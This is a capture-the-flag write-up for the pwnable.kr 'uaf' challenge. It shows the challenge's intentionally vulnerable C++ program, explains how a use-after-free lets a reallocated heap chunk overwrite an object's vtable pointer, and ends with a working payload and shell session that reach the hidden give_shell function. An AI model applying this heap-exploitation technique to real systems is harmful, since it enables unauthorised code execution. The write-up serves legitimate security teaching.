


# pwnable.kr -- Toddler's Bottle -- uaf

## 1. Challenge

```
Mommy, what is Use After Free bug?  

ssh uaf@pwnable.kr -p2222 (pw:guest)  
```

## 2. Solution

Connect target via ssh and see source code:

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
    virtual void give_shell() {
        system("/bin/sh");
    }
protected:
    int age;
    string name;
public:
    virtual void introduce(){
        cout << "My name is " << name << endl;
        cout << "I am " << age << " years old" << endl;
    }
};

class Man: public Human{
public:
    Man(string name, int age){
        this->name = name;
        this->age = age;
    }
    virtual void introduce(){
        Human::introduce();
        cout << "I am a nice guy!" << endl;
    }
};

class Woman: public Human{
public:
    Woman(string name, int age){
        this->name = name;
        this->age = age;
    }
    virtual void introduce(){
        Human::introduce();
        cout << "I am a cute girl!" << endl;
    }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
    Human* w = new Woman("Jill", 21);

    size_t len;
    char* data;
    unsigned int op;
    while(1){
        cout << "1. use\n2. after\n3. free\n";
        cin >> op;

        switch(op){
                case 1:
                        m->introduce();
                        w->introduce();
                        break;
                case 2:
                        len = atoi(argv[1]);
                        data = new char[len];
                        read(open(argv[2], O_RDONLY), data, len);
                        cout << "your data is allocated" << endl;
                        break;
                case 3:
                        delete m;
                        delete w;
                        break;
                default:
                        break;
        }
    }

    return 0;
}
```

We can see if we choose `"3. free"` and then choose `"1. use"`, it is a classical behavior called `"use after free"`. In this situation, we could not guarantee that it is the member function `introduce()` that is called.

If you do not know why, let's see the memory layout of each class:

| offset |             class Human               |              class Man             |                class Woman           |
|--------|---------------------------------------|------------------------------------|--------------------------------------|
|   +0   | a pointer to `Human` class's vftable  | a pointer to `Man` class's vftable | a pointer to `Woman` class's vftable |
|   +8   |               int age                 |               int age              |               int age                |
|   +16  |           std::string name            |           std::string name         |           std::string name           |
|   +24  |                 (end)                 |                (end)               |                 (end)                |

But what does the vftable of each class looks like? Well, you can see it in IDA:  



Now let's see how virtual function is called:



We can obviously see the program looks for vftable first, then calls the second function pointer which points to its own `introduce()` function.

In the mean time you can see the third function pointer in the vftable points to a shell function that can help us get a shell. So if we try to modify the pointer that points to vftable, a wrong function wound be called when the program wants to call `introduce()`.

We know the size of each class' objects is 24 bytes. And the two objects, `m` and `w`, are allocated at heap. After the two objects are deleted/released, the corresponding two heap chunks are marked free. If we allocate a heap chunk which has the same size with the size of the two objects, the address returned would probably be equal to `Human* m` or `Human* w`.

Here's the solution:

```bash
uaf@ubuntu:~$ python3 -c "print('\x68\x15\x40\x00\x00\x00\x00\x00')" > /tmp/payload
uaf@ubuntu:~$ ./uaf 24 "/tmp/payload"
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$
```
